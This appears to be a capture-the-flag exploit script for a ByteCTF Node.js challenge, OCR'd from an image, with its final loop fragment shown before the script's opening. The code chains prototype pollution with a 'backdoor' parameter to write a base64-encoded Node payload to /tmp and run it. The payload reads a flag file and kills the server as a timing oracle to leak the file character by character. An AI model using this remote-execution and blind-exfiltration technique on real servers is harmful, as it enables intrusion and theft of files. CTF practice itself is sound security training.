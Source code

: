 ```python
            except:
                continue

            try:
                requests.get(url, timeout=5)
                requests.get(url, timeout=5)
                requests.get(url, timeout=5)
            except:
                find = True
                result += char
                print(result)
                sleep(5)
                break
```

```python
# blasting_flag.py - Blasting the `flag`

import requests
from urllib import parse
import base64
from time import sleep
import string

# url = "http://39.106.69.116:30001/"
url = "http://39.106.34.228:30001/"

template = '''
    const exec = require("child_process").exec;
    const fs = require("fs");
    const cmd = "cat /Th1s_1s*";

    exec(cmd, function(error, stdout, stderr) {{ 
        if(stdout[{0}]==="{1}" && stdout.substr(0,{0})==="{2}"){{
            exec("pkill node");
        }}
    }});
'''


def remote_exec(command):
    params = "echo {} | base64 -d > /tmp/hhh.js;node /tmp/hhh.js".format(base64.b64encode(t.encode()).replace(b'\n',b'').decode())
    # print(params)
    requests.get(url +"?ByteCTF[__proto__][length]=100000&ByteCTF[toString]=&ByteCTF[][a]&backdoor="+parse.quote(params))

if __name__ == "__main__":
    # For example, if the fourth character is found, then the third character is probably correct
    # It requires a lot of human factors. Sometimes it pauses for a while and looks a few more times. It's probably there because the node restarts too quickly. Looking a few more times can exclude network fluctuations factors
    result = ""
    result = "by"
    result = "bytectf{50579195da002fa989432cbc1a83e38f5d3765122d9a7d4d767f99a61fa58f22"
    for i in range(len(result), 10000000):
        find = False
        # for char in string.ascii_letters:
        for char in string.ascii_letters + "{_- }" + string.digits:
            print(i, len(result), char, result + char)
            t = template.format(len(result), char, result)
            # print(t)

            try:
```